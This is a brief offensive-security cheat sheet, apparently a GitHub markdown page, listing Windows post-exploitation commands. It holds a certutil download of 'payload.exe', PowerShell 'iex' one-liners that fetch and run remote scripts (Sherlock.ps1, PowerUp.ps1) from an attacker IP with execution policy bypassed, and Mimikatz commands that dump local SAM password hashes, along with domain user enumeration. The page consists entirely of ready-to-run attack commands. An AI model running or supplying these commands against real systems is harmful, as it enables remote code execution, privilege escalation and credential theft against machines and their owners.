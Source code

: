 # Download stuff

1. certutil -urlcache -split -f http://source.ip/payload.exe payload.exe
2. Download the file: 
Invoke-WebRequest -Uri "url" -OutFile "dest"
3. Download and execute: 
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('ip/src')"

# Find Stuff

* cmd: dir Backups /s c:\ /p 
* ps:

# Enumeration

powershell.exe -exec bypass -C "IEX(New-Object System.Net.WebClient).DownloadString('http://xxx.xxx.xxx.xxx/Sherlock.ps1');Find-AllVulns"

c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/PowerUp.ps1') ; Invoke-AllChecks"

c:\>powershell.exe -ExecutionPolicy Bypass -noLogo -Command "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/powerup.ps1') ; Invoke-AllChecks"

c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/Sherlock.ps1') ; Find-AllVulns"

## If you have your ps1 file downloaded to the victim machine then run using this
c:\>powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"

c:\>powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"


# AD Wargaming

1.Find AD: nslookup

get local password hashes with Mimikatz

privilege::debug
token::elevate
lsadump::sam c:\tmp\sam.hiv c:\tmp\sec.hiv

2. getting Domain users

net user /domain

